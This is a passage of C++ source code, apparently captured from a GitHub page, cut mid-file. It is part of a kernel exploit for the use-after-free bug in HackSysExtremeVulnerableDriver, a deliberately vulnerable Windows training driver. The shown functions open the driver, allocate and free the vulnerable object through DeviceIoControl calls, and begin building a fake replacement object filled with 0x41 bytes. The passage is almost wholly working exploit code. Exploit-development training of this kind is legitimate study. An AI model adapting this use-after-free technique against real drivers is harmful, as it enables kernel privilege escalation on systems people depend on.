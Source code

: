 ```cpp

    cout << "[>] Grabbed handle to HackSysExtremeVulnerableDriver: " << hex
        << hFile << "\n";

    return hFile;
}

void create_UAF_object(HANDLE hFile) {

    cout << "[>] Creating UAF object...\n";
    BYTE input_buffer[] = "\x00";

    DWORD bytes_ret = 0x0;

    int result = DeviceIoControl(hFile,
        ALLOCATE_UAF_IOCTL,
        input_buffer,
        sizeof(input_buffer),
        NULL,
        0,
        &bytes_ret,
        NULL);

    if (!result) {

        cout << "[!] Could not create UAF object\n";
        cout << "[!] Last error: " << dec << GetLastError() << "\n";
        exit(1);
    }
    cout << "[>] UAF object allocated.\n";
}

void free_UAF_object(HANDLE hFile) {

    cout << "[>] Freeing UAF object...\n";
    BYTE input_buffer[] = "\x00";

    DWORD bytes_ret = 0x0;

    int result = DeviceIoControl(hFile,
        FREE_UAF_IOCTL,
        input_buffer,
        sizeof(input_buffer),
        NULL,
        0,
        &bytes_ret,
        NULL);

    if (!result) {

        cout << "[!] Could not free UAF object\n";
        cout << "[!] Last error: " << dec << GetLastError() << "\n";
        exit(1);
    }
    cout << "[>] UAF object freed.\n";
}

void allocate_fake_object(HANDLE hFile) {

    cout << "[>] Creating fake UAF object...\n";
    BYTE input_buffer[0x58] = { 0 };

    memset((void*)input_buffer, '\x41', 0x58);
```